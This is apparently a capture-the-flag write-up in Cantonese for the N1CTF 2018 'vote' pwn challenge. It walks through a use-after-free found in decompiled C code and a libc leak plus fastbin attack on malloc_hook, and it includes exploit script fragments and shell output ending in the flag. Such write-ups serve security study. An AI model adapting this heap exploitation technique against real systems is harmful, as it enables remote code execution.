 # vote 250(pwn)

題目:

>hk node: nc 47.90.103.10 6000
>
>cn node: nc 47.97.190.1 6000
>
>(Two challenge servers are identical, use either of them.)
>
>[Download](b8a4590d-9fee-4a34-8396-d63adac62a0d.zip)


menu:
```
0: Create
1: Show
2: Vote
3: Result
4: Cancel
5: Exit
Action: 
```

呢條係經典嘅 use-after-free 題目

Create 嘅 code:

```C++
void sub_400D2C()
{
...........
for ( i = 0; i <= 15; ++i )
  {
    if ( !*(&ptr + i) )
    {
      sub_400C52(4199328LL);
      v2 = sub_400C90(4199328LL);
      if ( v2 > 0 && v2 <= 4096 )
      {
        v0 = malloc(v2 + 16);
        *(_QWORD *)v0 = 0LL;
..............
}
```

Cancel 嘅 code:

```C++
void sub_40109D()
{
  char *v0; // rsi@8
  int v1; // [sp+Ch] [bp-4h]@1

  sub_400C52("Please enter the index: ");
  v1 = sub_400C90("Please enter the index: ");
  if ( v1 >= 0 && v1 <= 15 && *(&ptr + v1) )
  {
    if ( --qword_602180[v1] == --*(_QWORD *)*(&ptr + v1) )
    {
      if ( qword_602180[v1] < 0 )
        free(*(&ptr + v1));
    }
    else if ( qword_602180[v1] < 0 )
    {
      v0 = (char *)*(&ptr + dword_602160) + 16;
      printf("%s", v0);
      fflush(stdout);
      sub_400C00(" has freed", v0);
      free(*(&ptr + v1));
      *(&ptr + v1) = 0LL;
    }
  }
}
```

個bug就係free 之後冇清返ptr array 相應entry做0,引致UAF

有一個注意位就係,如果我request 0x20 name size, 實際會return 0x40 嘅object(冇睇清楚ida code嘅後果.........) 

之後就係基本套路 leak libc-> fastbin attack -> get shell


不過由於冇得直接edit, 所以有好多error chk 要bypass .....


當leak完 libc, trigger consolidation之後, malloc 一個大少少嘅chunk 覆蓋晒之前個d chunk 嘅address

之後再寫假嘅meta data 去上一手memory address 相應嘅位置 (error chk bypass eg 前後位size 要match  )

再free 返chunk 0 防止再malloc 個陣trigger heap inside freed heap error 



之後malloc一個0x50(0x70) 拎左最頂塊chunk,再malloc 一個0x50(0x70) fastbin 就可以有arbitary writing...

```python
create("qqqq",0x50)
create("A"*3+p64(rce)*4,0x50)
print "[+]get shell :)"
r.sendline("0")
sleep(1)
#triger one gadget
r.sendline("4000")
r.sendline("$0")
r.sendline("ls -al")
r.interactive()
```

# Solution


solution: [solve.py](solve.py)

```
# [*] '/root/Desktop/CTF_Game/n1ctf_2018/vote/libc-2.23.so'
#     Arch:     amd64-64-little
#     RELRO:    Partial RELRO
#     Stack:    Canary found
#     NX:       NX enabled
#     PIE:      PIE enabled
# [*] Paused (press any to continue)
# 139870119717752

# 0x7f360ccceb78
# leaked libc =0x7f360c90a000
# malloc_hook = 0x7f360ccceb10
# one = 0x7f360c9fa274
# [+]get shell :)
# [*] Switching to interactive mode
# Please enter the name's size: total 36
# dr-xr-xr-x 2 pwn  pwn   4096 Mar 10 18:38 .
# drwxr-xr-x 3 root root  4096 Mar  8 15:28 ..
# -rw-r--r-- 1 pwn  pwn    220 Mar  8 15:28 .bash_logout
# -rw-r--r-- 1 pwn  pwn   3771 Mar  8 15:28 .bashrc
# -rw-r--r-- 1 pwn  pwn    655 Mar  8 15:28 .profile
# -rw-r--r-- 1 root root    26 Mar  9 11:12 flag
# -rwxr-xr-x 1 root root 10544 Mar  8 15:29 vote
# $ cat flag
# N1CTF{Pr1nTf_2333333333!}
# $  

```
